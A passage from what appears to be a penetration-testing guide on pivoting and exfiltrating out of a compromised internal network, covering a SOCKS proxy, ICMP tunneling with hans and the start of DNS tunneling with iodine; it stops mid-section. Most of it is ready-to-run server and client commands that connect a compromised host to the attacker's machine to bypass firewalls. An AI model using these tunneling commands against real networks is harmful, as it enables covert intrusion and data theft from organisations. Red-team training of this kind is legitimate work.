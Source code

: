 `python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0`

Client side:

`python client.py --server-ip <ip> --server-port 9999`

As a result, a socks4 proxy service will be bound server side on port 1080.

## Exfiltrating from the internal network

Here's a different case. Let's say your social engineering gig ended up placing you in the internal network. You have limited connectivity and ability to execute command on the compromised machine.  Of course, if the internet is directly routed and not firewalled you can resort to any technique described above. But if you're not so lucky there're still ways to pivot your way out.

### ICMP tunneling

If icmp traffic is allowed to external networks then most likely you can establish an icmp tunnel. The downside is that you will need root/administrator privileges on the target system becase of the necesity to use raw sockets. Check this tool out - <http://code.gerade.org/hans/>. Personally I've never tried running it on Windows. It works like a charm on Linux tho. Server side command (attacker's machine):

`./hans -v -f -s 1.1.1.1 -p P@ssw0rd`

The `-v` flag is for verbosity, the `-f` flag is to run in foreground and the `-s` flag's value is the server's ip on the newly created tun interface.

Client side: 

`./hans -f -c <server_ip> -p P@ssw0rd -v`

After successful connection the client should be directly visible at 1.1.1.100:

```text
# ping 1.1.1.100
PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms
```

Now you can use this machine as gate into the internal network. Use this machine a default gateway or connect to a management interface (ssh/tsh/web shell).

### DNS tunneling

If any WAN traffic is blocked but external host names are resolved then there's a possibility of tunneling traffic via DNS queries. You need a domain registered for this technique to work. [This manual](http://dev.kryo.se/iodine/wiki/HowtoSetup) might help you with setting up your name server.

#### Iodine

If so happens that you got root access on the server you can try [iodine](http://code.kryo.se/iodine/). It works almost like hans icmp tunneling tool - it creates a pair of tun adapters and tunnels data between them as DNS queries. Server side:

`iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com`

Client side:
